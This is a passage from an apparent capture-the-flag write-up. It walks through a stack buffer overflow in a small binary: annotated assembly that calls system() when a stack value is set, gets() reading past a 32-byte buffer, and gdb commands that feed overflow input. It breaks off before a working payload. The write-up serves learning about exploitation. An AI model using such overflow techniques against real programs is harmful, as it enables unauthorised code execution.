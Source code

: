 ```asm6502
;  cmp compares what's in the $rbp register to 0xffffffffffffffff
;  and turns on the ZERO flag if they're equal
   0x004012a5 <+0>:  cmp    QWORD PTR [rbp-0x8],0xffffffffffffffff
   
;  jne checks if the ZERO flag is on,
;  and if it is it jumps (in this case) to 0x4012b8
┌--0x004012aa <+1>:  jne    0x4012b8 <main+194>
│; we can safely ignore the `lea` instruction as it doesn't impact our pwn
│  0x004012ac <+2>:  lea    rdi,[rip+0xf35]        # 0x4021e8
│
│; the almighty syscall
│  0x004012b3 <+3>:  call   0x4010c0 <system@plt>
│
│; from here on the program exits without calling /bin/sh
└->0x004012b8 <+4>:  mov    eax,0x0
   0x004012bd <+5>:  leave
   0x004012be <+6>:  ret
```

The program checks if there's `0xffffffffffffffff` in memory `0x8` bytes before
the `$rbp` register. The program allocates 32 bytes of memory for our heartfelt
message, but it continues reading even if our heartfelt message is longer than
32 bytes. Let's see if we can overwrite that register >:)

Let's set a breakpoint after the `<gets@plt>` call in gdb, and run the program
with 40 bytes of `0x61` ('a')

```
(gdb) break *0x00000000004012a5
Breakpoint 1 at 0x4012a5

(gdb) run < <(python3 -c "print('a' * 40)")
```

I'm using the `run` command with `<` and `<()` to pipe the output of python
into the program's `stdin`. It's unnecessary at this stage because there's an
'a' key on my keyboard, but if we were to send raw bytes, this would make it a
lot easier.

I'm also using [gef](https://github.com/hugsy/gef) so I get access to a command
called `context` which prints all sorts of information about registers, the
stack and a small disassembly window. I won't show it's output here, but it
was an indispensable tool that you should install nonetheless.

Let's print the memory at `[$rbp - 0x8]`:

```
(gdb) x/8gx $rbp - 0x8
0x7fffffffd758:  0x0000000000000000 0x0000000000000000
0x7fffffffd768:  0x00007ffff7de4b25 0x00007fffffffd858
0x7fffffffd778:  0x0000000100000064 0x00000000004011f6
0x7fffffffd788:  0x0000000000001000 0x00000000004012c0
```

Hmmm, no overwriteage yet. Let's try 56 bytes instead:
